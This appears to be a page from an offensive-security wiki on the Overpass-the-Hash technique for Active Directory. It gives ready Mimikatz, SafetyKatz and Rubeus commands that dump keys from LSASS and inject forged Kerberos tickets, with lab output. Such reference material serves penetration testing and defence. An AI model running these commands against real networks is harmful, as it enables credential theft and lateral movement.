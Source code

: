 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Overpass-the-Hash

{% hint style="info" %}
## Pass-the-Hash vs Overpass-the-Hash

* [**Pass-the-Hash (PtH)**](pass-the-hash.md) involves reusing NTLM password hashes—typically the NT hash of a user account—to authenticate over NTLM. This technique works with both local and domain accounts but only against services that accept NTLM (e.g., SMB, WMI, WinRM with NTLM fallback).
* **Overpass-the-Hash (OtH)** leverages the NT or AES keys of a domain user to generate valid Kerberos TGTs, which are then injected into the current session (or a new one). This enables access to Kerberos-authenticated services and is preferred in environments that restrict or monitor NTLM. OtH is effectively a Kerberos-based equivalent of PtH, offering broader access in modern enterprise networks.
{% endhint %}

**Overpass-the-Hash (OtH)** enables Kerberos-based lateral movement by forging a valid TGT from a user's NTLM or AES key, avoiding NTLM authentication entirely. Tools like [Mimikatz](../ad-tools/mimikatz.md) generate and inject the TGT into a new process (e.g., `cmd.exe` or PowerShell), allowing access to Kerberos-protected services such as RDP, CIFS, or WinRM.

This technique is typically used after compromising a host where the target user has logged in. With administrative access, the attacker extracts the user’s hash from LSASS, generates a Kerberos ticket, and injects it into memory. **OtH is stealthier than PtH**, evades NTLM restrictions, and leverages native system tooling while operating entirely within the Kerberos trust model.

## Tools

{% hint style="warning" %}
Although the `mimikatz` module is named `sekurlsa::pth`, this is technically an OtH attack—not traditional PtH; this is just a misnomer.
{% endhint %}

{% tabs %}
{% tab title="mimikatz" %}
Execute an OtH attack with [Mimikatz](../ad-tools/mimikatz.md):

{% code overflow="wrap" %}
```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell" "exit"
```
{% endcode %}

There are no cached TGTs yet, as no Kerberos-authenticated service is accessed:

```powershell
> klist
...
Cached Tickets: (0)
```

When a Kerberos-based service is used (e.g. CIFS), a TGT for `krbtgt/CORP.COM` and TGS for `cifs/files04` will be generated:

{% code overflow="wrap" %}
```powershell
> net use \\files04
The command completed successfully.

> klist
...
Cached Tickets: (2)

#0>     Client: jen @ CORP.COM
        Server: krbtgt/CORP.COM @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: DC1.corp.com

#1>     Client: jen @ CORP.COM
        Server: cifs/files04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/27/2023 5:27:28 (local)
        End Time:   2/27/2023 15:27:28 (local)
        Renew Time: 3/6/2023 5:27:28 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: DC1.corp.com
```
{% endcode %}

The NTLM hash has been successfully converted a TGT. The latter can now use any Kerberos-based authentication tool, such as [`PsExec`](../ad-tools/sysinternals.md).
{% endtab %}

{% tab title="SafetyKatz" %}
To perform an OtH attack with [SafetyKatz](../ad-tools/safetykatz.md):

{% code overflow="wrap" %}
```powershell
# Extract ASE256 keys from LSASS
.\SafetyKatz.exe "privilege::debug" "sekurlsa::ekeys" "exit"
```
{% endcode %}

Use the AES256 key (or NT hash) of a domain user to inject a forged TGT and launch a new process (e.g., `cmd.exe`) with Logon Type 9 (`runas /netonly`):

{% hint style="warning" %}
The OtH attack with SafetyKatz needs to be run from an elevated shell!
{% endhint %}

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
[Rubeus](../ad-tools/rubeus.md) can be used for OtH attacks **without access to an elevated shell**. The downside is that it overwrites the current tickets:

```powershell
.\Rubeus.exe asktgt /user:administrator /rc4:<ntmlHash> /ptt
```

If a new process need to be started (to avoid overwriting), access to an elevated shell is required:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}
{% endtabs %}
